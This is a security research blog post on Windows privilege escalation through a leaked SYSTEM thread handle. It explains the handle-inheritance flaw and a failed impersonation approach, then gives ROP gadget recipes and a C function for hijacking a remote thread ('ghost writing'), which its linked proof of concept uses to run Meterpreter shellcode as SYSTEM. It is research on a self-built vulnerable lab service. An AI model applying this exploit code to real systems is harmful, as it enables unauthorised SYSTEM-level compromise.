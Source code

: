 ```yaml
---
title: Whoops… I dropped my SYSTEM thread HANDLE
---
```


I recently came across an interesting finding from [PrivescCheck](https://github.com/itm4n/PrivescCheck), the tool reported an exploitable leaked thread handle. This is when a privileged process leaks a handle (in this case a thread handle) into an unprivileged process, effectively allowing the unprivileged user to gain access to the privileged handle. These must be manually investigated and while mine was unfortunately a false positive, I still wanted to understand how one would exploit this vulnerability.

## Recreating the Vulnerability

You might be wondering how this happens? Well if you look at the [CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) documentation, you will see:

> bInheritHandles - If this parameter is TRUE, each inheritable handle in the calling process is inherited by the new process.

So if a SYSTEM service created a process inside the user's desktop with [CreateProcessAsUserA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), and set `bInheritHandles` to TRUE, all inheritable handles within the SYSTEM process are now also available inside the user process.

I recreated this exact setup with <https://github.com/Acebond/LeakyService>. This service will pop-up a cmd.exe inside the user's desktop with a leaked SYSTEM thread handle.

## Exploitation the Wrong Way

The [exploiting-leaked-process-and-thread-handles](https://dronesec.pw/blog/exploiting-leaked-process-and-thread-handles/) blog says that this can be exploited with `NtImpersonateThread`. The idea is that the low privileged user can impersonate the thread token, to gain code execution with a SYSTEM thread token.

![suspicious dog](/assets/img/2024-10-10/suspicious_dog.jpg)

While the blog mentioned above is excellent, I don't believe it and everyone who says this can PoC \|\| GTFO. An example of what they _think_ can be done is here: <https://github.com/Acebond/NtImpersonateThreadMethod>. This method fails, and `NtImpersonateThread` only creates a thread running with an [impersonation level](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-levels) of `SecurityIdentification`. To work successfully, the attack requires `SeImpersonatePrivilege` privilege, which no low privileged user should ever had, otherwise they would hardly be low privileged. If the low privileged user did have `SeImpersonatePrivilege`, this would work, and the newly created thread would be running with a SYSTEM token with an impersonation level of `SecurityImpersonation`.

## Exploitation the Right Way

I couldn't find any other way to exploit this other than doing ROP with `SetThreadContext`, `GetThreadContext`, `SuspendThread`, and `ResumeThread`.

The Internet seems to call this “ghost writing” since no process level manipulation such as `ReadProcessMemory`, `WriteProcessMemory`, and `CreateRemoteThread` are performed, because, well, we can't - we only have access to the thread, not the process.

I based my PoC heavily on <https://github.com/fern89/ghostwriting-2>. This was about the best PoC for ghost writing I could find, except it was only for 32bit.

The ROP requires 3 gadgets:

1. A `ret` gadget. This pops an address off the stack and jumps to that address. We use it to execute function after setting up the parameters.
2. A `jmp $` gadget. This jumps backward by 2 bytes and causes `rip` to jump back to itself, creating an infinite loop. We use it to stop the thread from executing past our push gadget and into the unknown.
3. A `push rdx; call rax` gadget. This will push `rdx` onto the stack, a value we control, and then be used to call `rax` which will hold the address of our `jmp $` infinite loop gadget. We use it to push data to the stack, and effectively halt the thread from doing anything meaningful.

The 3rd gadget could be anything like:

```plaintext
push reg1; call reg2
push reg1; jmp reg2
push reg1; push reg2; ret
mov [reg1]; ret
mov [reg1]; call reg2
mov [reg1]; jmp reg2
```

With these gadgets, and a **VERY** good (nobody seems to talk about the shadow space except for <https://retroscience.net/x64-assembly.html>, thank you) understanding of the Windows 64bit calling convention, we can execute a function in the remote thread like so:

```c
DWORD64 CallFuncRemote(
    HANDLE hThread,
    Gadgets gadgets,
    DWORD64 funcAddr,
    BOOL returnVal,
    const uint64_t count,
    const DWORD64 parameters[])
{
    // 1. Check/Fix Stack alignment
    CONTEXT ctx = { .ContextFlags = CONTEXT_FULL };

    SuspendThread(hThread);
    GetThreadContext(hThread, &ctx);

    int isStackAlignmentGood = ((ctx.Rsp + 0x08) == ((ctx.Rsp + 0x08) & ~0x0F));
    int isEvenPUSHParameters = ((count <= 4) || (count % 2 == 0));

    ResumeThread(hThread);

    if (isStackAlignmentGood ^ isEvenPUSHParameters) {
        PushData(hThread, gadgets, 0x00);
    }

    // 2. PUSH function parameters
    for (uint64_t i = count; i > 4; i--) {
        PushData(hThread, gadgets, parameters[i-1]);
    }

    // 3. PUSH shadow space if required
    if (count > 4) {
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
    }

    // 4. PUSH jmps save return pointer
    PushData(hThread, gadgets, gadgets.jmps);

    // 5. PUSH function to call address
    PushData(hThread, gadgets, funcAddr);

    // 6. Execute with ret gadget
    Slay(hThread, gadgets, 
        (count > 0 ? parameters[0] : 0),
        (count > 1 ? parameters[1] : 0),
        (count > 2 ? parameters[2] : 0),
        (count > 3 ? parameters[3] : 0)
    );

    // 7. Ensure the thread _did_ something
    WaitUnblock(hThread);

    // 8. Get return value if required
    return (returnVal ? GetReturnValue(hThread, gadgets) : 0);
}
```
Full code here: <https://github.com/Acebond/GhostWrite64>

We use this to `VirtualAlloc` some memory in the privileged process, write some shellcode to that memory with a named pipe, and then call `CreateThread` to execute the shellcode, and lastly, restore the hijacked thread back to whatever it was doing. The full PoC is on [GitHub](https://github.com/Acebond/GhostWrite64) and has some cool tricks like figuring out if the target thread has been scheduled on the CPU yet, and how to determine if we need to realign the stack.

### PoC \|\| GTFO

In the screenshot below, LeakyService is running, and will spawn a cmd.exe as the lowpriv user. The cmd.exe (PID 9060 in this example) has a leaked thread handle to the LeakyService.exe which is running as SYSTEM.

![System Informer showing the leaked handle](/assets/img/2024-10-10/process.png)

To exploit this, I ran the GhostWrite PoC inside the cmd.exe (you'd otherwise have to `OpenProcess` and `DuplicateHandle`); this causes the leaked handle to leak again from cmd.exe into GhostWrite.exe, because cmd creates process with inherit handles set to TRUE.

![PoC getting a Meterpreter shell](/assets/img/2024-10-10/poc.png)

GhostWrite then hijacks the SYSTEM thread using the leaked handle and the ROP method described above, creates its own thread inside the SYSTEM process to run a Meterpreter shellcode, and seamlessly restores the original thread execution. Easy-peasy.